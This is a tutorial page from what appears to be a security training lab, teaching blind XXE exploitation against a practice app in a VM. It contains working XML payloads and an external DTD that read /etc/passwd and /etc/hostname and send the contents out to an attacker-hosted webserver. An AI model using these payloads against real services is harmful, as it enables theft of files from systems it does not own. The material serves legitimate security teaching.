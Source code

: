 ```yaml
---
title: "Blind XXE Exploit"
weight: 6
---
```


Lets try setting up two general entities. The first will read the `/etc/password` file and the second will send the contents to our webserver. To do this we define a `foo` entity with the contents of the local file and then use the `http` request and place the `foo` entity in the URL that is requested.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [
  <!ENTITY foo SYSTEM "file:///etc/passwd">
  <!ENTITY xxe SYSTEM "http://127.0.0.1:5000/&foo;">
]>

<todo>&xxe;</todo>
```

We get an error and on our webserver we see the request, but the general entity `foo` is not interpolated. Why?

{{% notice info %}}
This breaks rule 3 of the General Entity rules - A General Entity may be part of another entity definition but only if that entity will be used directly in the document. Because the `&foo;` is not used directly in the document but rather as part of the URL for an external entity it won't work.
{{% /notice %}}

The good news is that we can use [Parameter Entities]({{< ref "entities.md#parameter-entities" >}}). But there are some limitations to their use:

According to [w3](https://www.w3.org/TR/xml/#wfc-PEinInternalSubset)

> The use of parameter entities in the internal subset is restricted as described below.
...
> In the internal DTD subset, parameter-entity references MUST NOT occur within markup declarations; they may occur where markup declarations can occur. (This does not apply to references that occur in external parameter entities or to the external subset.)

Breaking this down there are two important parts:

1. Paramater entities cannot be declared or used within a definition of an entity
2. **Except if the entity is an external defined entity**

The second line is very important as that is how we will exfil data. But first, lets make sure we understand the first line.

Using the xml below: The usage of the `passwd` parameter entity at the end of line 3 will fail because it is used within the declaration of the `wrapper` parameter entity. On the other hand the `%wrapper;` on line 4 is perfectly fine because it is not used within a declaration.

```xml
<!DOCTYPE xxe [
  <!ENTITY % passwd SYSTEM "/etc/passwd">
  <!ENTITY % wrapper "<!ENTITY send SYSTEM 'http://127.0.0.1:5000/?%passwd;'>">
  %wrapper;
]>
```

## External Entities

In our VM you will find the `/home/vagrant/dtds/external.dtd` file with the following content:

```bash
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://127.0.0.1:5000/?x=%file;'>">
%eval;
%exfil;
```

Now run the python webserver from the `/home/vagrant/dtds` directory

```bash
cd /home/vagrant/dtds
python3 -m http.server 5000
```

Now submit the following in the app

```xml
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://127.0.0.1:5000/external.dtd"> %xxe;
]>
```

![Blind XXE Illegal Character URL](/static/img/blind_xxe_illegal_character_url.png)

The error we get back states that there were illegal characters in the URL. This is most likely caused by the carriage returns in the file. Lets try a file that should not contain anything that will cause URL issues and see if we are successful.

We are going to change the file we are trying to retrieve to `/etc/hostname`. To do that we will use the `hostname.dtd` found in the `/home/vagrant/dtds` directory.

```bash
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://127.0.0.1:5000/?x=%file;'>">
%eval;
%exfil;
```

Now submit the following xml which calls the hostname file.

```xml
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://127.0.0.1:5000/hostname.dtd"> %xxe;
]>
```

We see that the error page no longer states that there is a URL error.

![Blind XXE Hostname Error](/static/img/blind_xxe_hostname_error.png)

If we check the python server we see a new request that includes the VM hostname:

![Python Webserver Hostname](/static/img/python_webserver_hostname.png)

